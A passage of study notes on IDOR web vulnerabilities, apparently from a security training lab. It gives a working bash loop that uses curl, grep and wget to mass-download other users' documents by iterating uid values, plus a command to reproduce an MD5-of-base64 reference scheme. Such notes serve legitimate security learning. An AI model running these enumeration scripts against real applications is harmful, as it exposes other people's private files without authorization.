     * register multiple users and compare their HTTP requests and object references
    * possible for one user to have access to certain API calls while other users don't

* Mass IDOR enumeration:

  * for given webapp, logging in as employee shows parameter ```uid=1``` in URL

  * in the documents page, we have many documents with predictable naming patterns - filename, ```uid``` and month/year as part of filename

  * this type of IDOR vulnerability is called static file IDOR

  * if we check by changing the ```uid``` in URL as well, we do not notice any difference in page output, but the linked files are different this time

  * for mass IDOR enumeration, start by crafting a command to fetch only the documents using regex; following which we can create a simple script to loop over ```uid``` and fetch documents of all employees:

    ```shell
    curl -s "http://example.com/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"
    # fetch the filename in such a way that it can be appended in URL to access it
    ```

    ```shell
    #!/bin/bash

    url="http://example.com"

    for i in {1..10}; do
            for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                    wget -q $url/$link
            done
    done
    ```

* Bypassing encoded references:

  * under the Contracts section in given webapp, we can see the downloaded filename includes some encoded/hashed string

  * while the filename downloaded at the end includes MD5 hash of '1' (indicating ```uid``` 1), the intercepted request includes different data which cannot be easily decoded

  * we can check the source code however for the function being used to download contract

  * the source code shows that the value being hashed is ```btoa(uid)```, which is converted to MD5 hash; this can be replicated:

    ```shell
    echo -n 1 | base64 -w 0 | md5sum
    # the flags are added to prevent newlines
    ```
  
  * then, we can write a script for mass enumeration:
